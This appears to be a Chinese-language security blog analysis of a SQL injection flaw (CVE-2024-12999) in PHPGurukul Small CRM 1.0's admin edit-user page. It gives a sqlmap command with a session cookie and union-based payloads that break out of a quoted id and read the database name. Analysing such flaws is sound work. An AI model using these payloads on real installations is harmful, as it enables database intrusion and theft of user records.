









# PHPGurukul Small CRM 1.0 sql注入漏洞分析(CVE-2024-12999)-先知社区

> **来源**: https://xz.aliyun.com/news/16384  
> **文章ID**: 16384

---

# 漏洞通告



# 漏洞复现-黑盒测试

根据漏洞通告了解到漏洞是在`/admin/edit-user.php`文件下的id字段

查找用户编辑页面



观察url地址可以看到id字段，此时满足了通告的两个条件`/admin/edit-user.php`和`id`



使用sqlmap测试

```
sqlmap -u http://test.com/admin/edit-user.php?id=1 --cookie "PHPSESSID=v2el2qa0pgch2i5lv639u5dogq"

```



# 漏洞分析

进入`/admin/edit-user.php`文件，首先就看到`$userid=$_GET['id'];`



但是要想进入这个代码段请求要是post请求，之前使用sqlmap测试是使用的get请求，全局查看一下`$_GET['id']`

在67行看到使用id进行凭借的sql语句



## sql构造

根据这个sql可以看出来是一个字符串类型注入所有要通过`'`单引号闭合

```
select * from user where id='xxxxxx'

```

通过单引号闭合可以构造payload

例如想查看环境权限可以使用`union`构造，查看sql配置文件获取到`user表`有10个字段



payload构造如下

```
a' union select 'id','name','email','alt_email','password','mobile','gender','address','status','posting_date

```

sql数据回显的字段是name字段



就行修改payload，将nane指端修改为`database()`，获取成功数据库名。

```
a' union select 'id',database(),'email','alt_email','password','mobile','gender','address','status','posting_date

```


